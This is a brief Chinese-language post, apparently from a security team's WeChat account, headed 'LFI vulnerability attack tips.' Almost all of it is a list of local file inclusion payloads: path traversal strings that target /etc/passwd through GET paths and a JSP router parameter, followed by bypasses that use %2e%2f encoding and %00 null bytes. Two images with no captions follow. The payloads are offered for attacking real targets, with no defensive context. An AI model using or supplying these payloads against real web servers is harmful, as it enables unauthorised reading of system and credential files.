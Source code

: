 #  LFI漏洞攻击技巧   
 TtTeam   2025-04-25 15:57  
  
GET 路径注入：尝试 ///../../../../etc/passwd  
  
POST LFI：测试类似 /router.jsp?../etc/passwd 的路径  
  
使用 %2e%2f 或 %00 绕过  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/0HlywncJbB1E20cRHPJj7wstXeibVRbsdEGEtLRS0doCAsWLPGfa9geyHQj5jjo4HKyhZLye33LaxqzJHeNN1oA/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/0HlywncJbB1E20cRHPJj7wstXeibVRbsdnzbrzAZH44oIsiaMLjfEhEHwvpcL936ZLK5r0acfGGXwM0Vm7icPwibQg/640?wx_fmt=png&from=appmsg "")  
  
